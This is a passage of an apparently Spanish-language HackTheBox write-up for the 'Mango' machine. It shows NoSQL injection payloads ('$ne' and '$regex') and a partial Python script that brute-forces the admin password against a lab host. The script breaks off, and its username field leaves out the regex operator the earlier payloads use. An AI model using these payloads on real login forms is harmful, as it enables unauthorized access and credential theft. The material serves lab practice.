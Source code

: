 ```bash
username[$ne]=admin&password[$ne]=admin&login=login
```

Aqui vemos que la respuesta es differente de la precedente lo que quiere decir que es probable que seamos frente de una vulnerabilidad **NOSQLI**

Vamos a probar cosas con expressiones regulares

```bash
username[$regex]=^a&password[$ne]=admin&login=login
Respuesta : 302 Found

username[$regex]=^b&password[$ne]=admin&login=login
Respuesta : 200 Ok

username[$regex]=^ad&password[$ne]=admin&login=login
Respuesta : 302 Found

username[$regex]=^ab&password[$ne]=admin&login=login
Respuesta : 200 Ok
```

Suponiendo que existe un usuario admin, vemos que con expresiones regulares, cuando acertamos tenemos una respuesta a lado de servidor 302 y a cada error un 200.

Nos creamos un script en python para el NOSQLI

```python
#!/usr/bin/python3

import pdb # Debugging
from pwn import *

def def_handler(sig, frame):
    print("\n[!] Saliendo...\n")
    sys.exit(1)

# Ctrl+C
signal.signal(signal.SIGINT, def_handler)

# Variables globales
main_url = "http://staging-order.mango.htb"
characters = string.ascii_letters

def makeRequest():

    p1 = log.progress("Fuerza bruta")
    p1.status("Iniciando fase de fuerza bruta")
    time.sleep(2)

    p2 = log.progress("Password[admin]")
    username = ""

    while True:
        for character in characters:

            p1.status("Probando con el caracter %c" % character)

            # NoSQL Injection
            post_data = {
                'username': f"^{username + character}",
                'password[$ne]':'admin',
                'login': 'login'
            }

            r = requests.post(main_url, data=post_data, allow_redirects=False)
```